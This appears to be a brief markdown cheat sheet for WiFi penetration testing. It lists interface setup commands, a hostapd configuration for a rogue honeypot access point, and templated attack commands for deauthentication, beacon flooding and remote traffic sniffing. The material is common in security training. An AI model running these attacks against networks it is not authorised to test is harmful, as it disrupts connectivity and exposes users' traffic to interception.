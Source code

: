 # W! hack Cheetsheat
<br />

## Set Up environment
<br />

|Purpose|Command|
|----|----|
|lsusb|List all usb devices attached to machine|
|ethtool -i {interface} | Get detailed information about interface|
|iwconfig | View all WiFi interfaces on system | 
|iw phy| View information about an interfaces and its capabilities|
|iw reg get|Check the regulatory domain|
|iw reg set {region}|Set reg domain |
|iw dev {interface} set channel {number}|Setting channel |
|iwconfig {interface} essid {ssid} | Connect to specific SSID|

<br />
<br />

<h2>
<b>Configure hostapd service to deploy Honey Pot</b></h2>


```
## To configure hostapd for WiFi Honeypot firstly we need to install it

    sudo apt install hostapd

## Therefore we need to create configuration file

    touch /etc/hostapd/hostapd.conf

## hostapd.conf content is ...

    interface={interface}
    driver=nl80211
    ssid={ssid}
    bssid={mac_addr}
    channel={channel}

## After that just start hostapd service

    systemctl start hostapd.service
```
<br />

<h2><b>Toolkits/Plugins</b></h2>`

|Name|Description|
|----------|------------|
|<a href="https://github.com/pentesteracademy/patoolkit"> Patoolkit </a>|Wireshark plugin, which implements the automation WiFi packets analysis|
|<a href="https://github.com/nodogsplash/nodogsplash">NoDogSplash</a>|Captive Portal|

<br />

## Techniques

|Type of technques|Command|
|---------------|-------------|
|Deathentication Attack|aireplay-ng -0 {count} -a {bssid} {interface} -c {sta_mac}|
|WiFi HoneyPot|hostapd {config_file}|
|Beacon flood|mdk4 {interface} b|
|Remote Sniffing|ssh user@remotehost tcpdump -U -i {interface} -w - \| wireshark -k -i - |


<br />
